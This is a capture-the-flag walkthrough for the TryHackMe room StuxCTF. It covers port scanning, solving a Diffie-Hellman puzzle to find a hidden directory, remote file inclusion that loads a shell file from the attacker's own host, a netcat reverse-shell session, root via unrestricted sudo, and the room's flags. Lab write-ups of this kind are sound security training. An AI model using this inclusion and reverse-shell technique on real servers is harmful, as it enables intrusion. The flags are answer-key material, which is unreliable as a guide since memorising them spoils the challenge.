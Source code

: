 # StuxCTF

Crypto, serealization, priv scalation and more ...! 

[StuxCTF](https://tryhackme.com/room/stuxctf)

## Topic's

* Network Enumeration
* Web Poking
* Cryptography
* Local File Inclusion
* Misconfigured Binaries

## Task 1 StuxCTF

Read user.txt and root.txt

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ sudo nmap -A -sS -sC -sV -O 10.10.66.221
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-13 16:43 CEST
Nmap scan report for 10.10.66.221
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Default Page
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/13%OT=22%CT=1%CU=41085%PV=Y%DS=2%DC=T%G=Y%TM=5F85BD
OS:37%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)EC
OS:N(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   36.03 ms 10.8.0.1
2   36.33 ms 10.10.66.221

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.30 seconds
```

[http://10.10.66.221/robots.txt](http://10.10.66.221/robots.txt)

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow: 
Disallow: /StuxCTF/
```

[http://10.10.66.221/StuxCTF/](http://10.10.66.221/StuxCTF/)

[view-source:http://10.10.66.221/](view-source:http://10.10.66.221/)

```
<html>
	<head>
		<title>Default Page</title>
	</head>
	<body>
		<!-- The secret directory is...
		p: 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251;
		g: 7;
		a: 330;
		b: 450;
		g^c: 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617;
		-->
		is blank....
	</body>
</html>
```

p: `9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251`;
g: `7`;
a: `330`;
b: `450`;
g^c: `6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617`;

[http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/](http://10.10.66.221/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/)

```html
<!DOCTYPE html>
    <head>
        <title>StuxCTF</title>
	<meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" />
        <link rel="stylesheet" href="assets/css/style.css" />
    </head>
        <body>
        <nav class="navbar navbar-default navbar-fixed-top">
          <div class="container">
            <div class="navbar-header">
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
              </button>
              <a class="navbar-brand" href="index.php">Home</a>
            </div>
          </div>
        </nav>
        <!-- hint: /?file= -->
        <div class="container">
            <div class="jumbotron">
				<center>
					<h1>Follow the white rabbit..</h1>
				</center>
            </div>
        </div>            
        <script src="assets/js/jquery-1.11.3.min.js"></script>
        <script src="assets/js/bootstrap.min.js"></script>
    </body>
</html>
```

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.8.106.222:80/shell.txt`

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/n.php`

```
kali@kali:~/CTFs/tryhackme/StuxCTF$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.66.221] 35024
whoami
www-data
pwd
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
cd /home
ls
grecia
cd grecia
ls
user.txt
cat user.txt
0b6044b7807dd100b9e30f1bd09db53f
```

```
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
cd /root
ls
root.txt
cat root.txt
0028454003b42601548df551b738976c
```

1. user.txt

`0b6044b7807dd100b9e30f1bd09db53f`

2. root.txt

`0028454003b42601548df551b738976c`

3. What is the hidden directory? HINT: `g ^ a mod p, g ^ b mod p, g ^ C mod p` first 128 characters ...

`/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`
